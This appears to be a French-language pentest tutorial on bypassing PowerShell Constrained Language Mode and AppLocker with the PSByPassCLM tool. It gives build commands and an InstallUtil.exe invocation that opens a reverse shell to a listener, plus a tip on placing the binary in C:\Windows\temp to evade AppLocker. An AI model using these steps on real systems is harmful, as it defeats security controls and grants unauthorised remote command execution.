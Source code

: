 ```yaml
---
title: "[AppLocker CLM] Bypass le mode de langage contraint en PowerShell"
description: clm.jpg
tags: ["Dans cet article je vous présente le système CLM (Constrained Language Mode) vous montrez le fonctionnement et de vous montrez comment bypass ce système qui vous donne pas assez de permissions dans un système PowerShell."]
---
```


![Flower](../clm.jpg)

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça. <br />

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose. <br />

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il peut-être disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- ConstrainedLanguage
- RestrictedLanguage
- NoLanguage

Actuellement je suis en mode `FullLanguage`, si vous souhaitez voir le mode `$ExecutionContext.SessionState` :

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559581679-screenshot-2.png)

Comme vous pouvez le voir, je suis en mode `FullLanguage`, cette fonctionnalité designe que justement j'ai les permissions pour exécuter des tâches (Ce qui est plutôt cool).

Mais dans certains cas vous pouvez voir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien pour la sécurité : <br />

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559586084-screenshot-4.png)

Concrètement comme vous pouvez le voir je suis en mode `ConstrainedLanguage`, vous ne pouvez pas par exemple exécuter un fichier à distance, télécharger des fichiers à distance etc..

.NET
----
Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Exécuter` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Activer ou désactiver des fonctionnalités Windows`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559583478-screenshot-5.png)

Build
----
Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

Reverse Shell
----
Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585369-screenshot-1.png)

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` pour Bypass `AppLocker`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585660-screenshot-2.png)

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585801-screenshot-3.png)

C'est un tutorial assez simple et assez rapide, pour vous présentez le fonctionnement de ce système.

